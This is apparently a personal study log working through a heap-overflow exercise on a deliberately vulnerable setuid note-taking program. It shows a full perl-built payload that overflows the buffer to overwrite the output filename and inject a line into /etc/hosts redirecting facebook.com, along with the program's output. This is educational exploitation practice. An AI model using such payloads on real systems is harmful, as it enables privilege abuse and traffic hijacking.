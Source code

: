 ```yaml
---
layout: post
title: AoE log entry 4
---
```


While I ask the audience for help about the symlink, I'm gonna exploit notetaker.c using the same technique. notetaker.c is a multi-user notetaking suid program. It copies user input directly into a 100-byte buffer on the heap. 20 bytes are allocated after the buffer to hold the name of the file to write to---ostensibly /var/notes, but not for long!

Unlike simplenote.c, no newline is added at the end of the buffer after strcpy. Also unlike simplenote.c, the real user ID of the executing user is written on its own line before the note+\n is written. So, I need to write to a file than can tolerate a line with some int and a newline before the line I try to inject. But at least I don't have to deal with filenames that end in newlines.

Again, I get an implicit declaration warning for getuid, write, and close when compiling notetaker.c. Include unistd.h and good to go.
```
gcc -o notetaker notetaker.c
sudo chown root:root ./notetaker
sudo chmod u+s ./notetaker
```

From gdb, buffer and datafile are allocated the same addresses on the heap as before, 0x555555757010 and 0x555555757080, 112 bytes apart. Woo, I can reuse my previous exploit string (assuming /etc/hosts won't choke on the line with the uid).
```
./notetaker "$(perl -e 'print "sketchy.ip.address www.facebook.com # " . "A"x74 . "/etc/hosts"')"
[DEBUG] buffer   @ 0x562bf9abc010: 'sketchy.ip.address www.facebook.com # AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/etc/hosts'
[DEBUG] datafile @ 0x562bf9abc080: '/etc/hosts'
[DEBUG] file descriptor is 3
Note has been saved.
```
BAM. How's that? Let's look at /etc/hosts.
```
...
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
<E8>^C^@^@
sketchy.ip.address www.facebook.com # AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/etc/hosts
```
<E8>... is the userid. Let's see if navigating to facebook takes us to sketchy.ip.address. I'm guessing I might have to replace sketchy IP address with something real enough, some local address, or maybe just localhost.

Kcchhhhhxxxxx, rewind to simplenote.c. Got some pointers:
* reread man pages for any functions I have control over (i.e. can pass input to) very carefully
* reread man ln and look for associated links
* read man symlink, man -k symlink

